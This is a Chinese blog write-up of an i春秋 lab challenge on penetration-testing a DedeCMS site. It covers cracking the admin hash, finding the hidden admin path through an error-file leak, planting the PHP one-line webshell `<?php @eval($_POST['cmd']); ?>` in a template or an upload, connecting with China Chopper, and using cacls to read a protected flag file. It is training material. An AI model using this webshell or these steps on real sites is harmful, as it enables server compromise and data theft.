 ```yaml
---
title: 【i春秋】渗透测试入门 —— 真的很简单
copyright: true
date: 2018-03-06 15:56:26
tags: [i春秋,pentest,exploit,writeup,CMS,crypto,web,php,trojan,vulnerability,privilege,cmd]
categories: [InfoSec,Pentest]
---
```


# 0x00 前言

本题是渗透测试入门的一道基础题，虽然美其名曰“真的很简单”，但对于新手还是有一定挑战性的，实践并掌握本题中的所有知识点，对渗透测试的基本理解有很大帮助。

此题的目标是对一个**基于[织梦 CMS](http://www.dedecms.com/) 的网站**进行渗透测试，找到网站登录后台，继而入侵服务器找到存放 flag 的文件。从实验手册上，可看出其中还会涉及到简单的提权过程。

- 题目链接：[https://www.ichunqiu.com/battalion?t=2&r=54399](https://www.ichunqiu.com/battalion?t=2&r=54399)
- 解题链接：[https://www.ichunqiu.com/vm/51123/1](https://www.ichunqiu.com/vm/51123/1)

<!-- more -->

![guide](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/guide.png)

# 0x01 网站管理员的密码是多少？

第 1 题相对简单，在实验环境内根据提示打开下载链接 `http://file.ichunqiu.com/49ba59ab`，接着下载爆破工具 `dedecms.exe`：

![dedecms_download](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms_download.png)

打开工具，输入目标 URL，一键爆破得到管理员的账号 `ichunqiu` 与密码哈希值 `adab29e084ff095ce3eb`：

![dedecms](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms.png)

仔细数数，发现密码哈希值是 20 位的（注：此处的“位”均为十六进制，而非二进制），上网一查才发现这是织梦 CMS 的特性，实现过程可参考 [DEDECMS的20位MD5加密密文解密示例介绍](http://www.jb51.net/cms/104721.html)：

![dedecms_md5](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/dedecms_md5.png)

将 20 位的哈希值用 [MD5解密工具](http://www.dmd5.com/md5-decrypter.jsp) 解密，得到密码明文 `only_system`：

![password](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/password.png)

为验证 20 位的 MD5 哈希算法规则，可进一步用 [MD5加密工具](https://md5jiami.51240.com/) 对 `only_system` 加密，发现其 16 位哈希值确实能由 20 位哈希值去掉前 3 位与后 1 位所得:

![password_verify](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/password_verify.png)

# 0x02 网站后台目录名是什么？

第 2 题上来先尝试织梦 CMS 的默认后台路径 `/dede/index.php` 或 `/dede/login.php`，得到 404 的结果也是意料之中，即现在的问题是要找出修改后的后台目录名。

打开实验工具箱，发现【目录扫描】文件夹，以【御剑后台扫描工具】为例，对目标 URL 扫描后得到如下结果：

![directory_scan](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/directory_scan.png)

注意，为了保证扫描效率，一般后台扫描工具都是采用字典扫描，而不是暴力穷举，因此**不同扫描器得到的结果不完全相同，尽可能使用多种扫描器，偏僻怪异的名字可能扫描不出来**。

笔者采用了多种扫描器，并对其可能的结果进行验证，都一无所获，即可**判断此后台目录名具有较强的个性或随机性**。

所以要转换思路，看看织梦 CMS 是否存在后台地址信息泄露的漏洞。果不其然，发现从报错文件 `/data/mysql_error_trace.inc` 或 `/data/mysqli_error_trace.inc` 中，可得到泄露的后台路径，具体可参考：

> [dedecms的各种卡哇伊小漏洞](http://blog.csdn.net/wangyi_lin/article/details/9286937)
> [dedecms(织梦)漏洞&exp整理](http://www.cnblogs.com/hookjoy/p/6996820.html)
> [php学习之织梦dedecms漏洞讲解](http://www.daixiaorui.com/read/14.html)

最后在 `/data/mysqli_error_trace.inc` 中获得后台目录名为 `lichunqiul`：

![mysqli_error_trace](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/mysqli_error_trace.png)

对其进行验证，终于看到了后台登录页面：

![login](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/login.png)

# 0x03 管理员桌面中 flag 文件信息是？

用账号 `ichunqiu` 与密码 `only_system` 登录后台后，根据实验手册，要想办法利用[中国菜刀](http://www.zhongguocaidao.com/)连接服务器，获得 webshell，进而查看 flag 文件中的信息。

## 获取 webshell

首先我们需要在服务器插入[一句话木马](https://baike.baidu.com/item/%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC)，然后才能用菜刀连接，获得 webshell。这里介绍两种插入一句话木马的方法。

### 直接修改模板 PHP 源码

依次点击 **模板 -> 标签源码管理**，以编辑第一个模板 `adminname.lib.php` 为例：

![template_list](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/template_list.png)

在模板源码第一行插入一句话木马 `<?php @eval($_POST['cmd']); ?>`：

![template_edit](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/template_edit.png)

接着在工具箱【webshell】文件夹打开【中国菜刀】：

![chopper](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/chopper.png)

在 **添加SHELL** 输入框中，输入被插入木马模板文件的地址 `http://www.test.ichunqiu/include/taglib/adminname.lib.php`，其右侧填入木马中接收 POST 请求数据的 key 字段 `cmd`，脚本类型为 `PHP(Eval)`，字符编码为 `GB2312`，设置完成后点击 **添加**：

![add_shell_1](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/add_shell_1.png)

若参数设置正确，双击所添加的条目，即可连接服务器的资源管理器，进入到模板文件所在的目录：

![manager_1](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_1.png)

### 上传一句话木马文件

先在本地创建文件 `trojan.php`，写入一句话木马 `<?php @eval($_POST['cmd']); ?>`：

![trojan_edit](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_edit.png)

再依次点击 **系统 -> 系统基本参数 -> 附件设置**，如下图更改允许上传的文件类型，否则木马将上传失败：

![file_type](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/file_type.png)

最后点击 **核心 -> 上传新文件**，如下图所示上传木马：

![trojan_upload](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_upload.png)

上传完毕后点击 **核心 -> 附件数据管理 -> 更改**，即可查看木马的路径：

![trojan_path](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/trojan_path.png)

接着利用菜刀添加SHELL，步骤同上，只不过地址更改为 `http://www.test.ichunqiu/uploads/soft/180307/1_1503138291.php`：

![add_shell_2](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/add_shell_2.png)

若参数设置正确，双击连接服务器的资源管理器，即可进入到木马所上传的目录：

![manager_2](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_2.png)

## 权限提升

进入到管理员桌面可看到 flag 文件 `flag~ichunqiu.txt`：

![manager_flag](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/manager_flag.png)

但双击后未显示任何内容，估计是权限受限。接下来可右键点击条目，祭出虚拟终端，即 webshell 的命令行模式：

![chopper_terminal](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/chopper_terminal.png)

先切换至管理员桌面，用 `cacls` 命令查看 flag 文件的[访问控制列表（ACL）](https://baike.baidu.com/item/%E8%AE%BF%E9%97%AE%E6%8E%A7%E5%88%B6%E5%88%97%E8%A1%A8)，后用 `whoami` 命令查看用户名，发现 `authority\system` 用户对于 flag 文件的权限是 N，即无权限，用 `type` 命令查看 flag 文件果然是拒绝访问的：

![deny](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/deny.png)

用 `cacls` 命令更改了访问权限后，`authority\system` 用户对于 flag 文件的权限变成了 F，即所有权限，再次查看 flag 文件内容即可看到 `key{il2o3l}`：

![flag](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/flag.png)

注意提交答案的时候有个坑，记得先拆掉包装，只需提交 `il2o3l` 即可。最后附上 `cacls` 命令的用法：

![cacls](http://oyhh4m1mt.bkt.clouddn.com/i%E6%98%A5%E7%A7%8B_%E6%B8%97%E9%80%8F%E6%B5%8B%E8%AF%95%E5%85%A5%E9%97%A8_%E7%9C%9F%E7%9A%84%E5%BE%88%E7%AE%80%E5%8D%95/cacls.png)

# 0x04 小结

所谓条条大路通罗马，以上思路可能只是完成目标的其中一种方法。本人能力有限，面对工具箱中种类繁多的各种工具不能信手拈来，对于 Windows 命令的使用也掌握不深，尤其是实验手册中提到的 `net.exe` 工具尚未使用，因为在 webshell 中使用 `net` 命令也是拒绝访问的，这个问题还请各位前辈不吝赐教。

最后向以下两篇参考 writeup 的作者表示致谢！

> [09-在线挑战详细攻略-《真的很简单》](https://bbs.ichunqiu.com/thread-19282-1-1.html)
> [爱春秋-WEB渗透实验-真的很简单-实验记录](https://bbs.ichunqiu.com/thread-15780-1-1.html)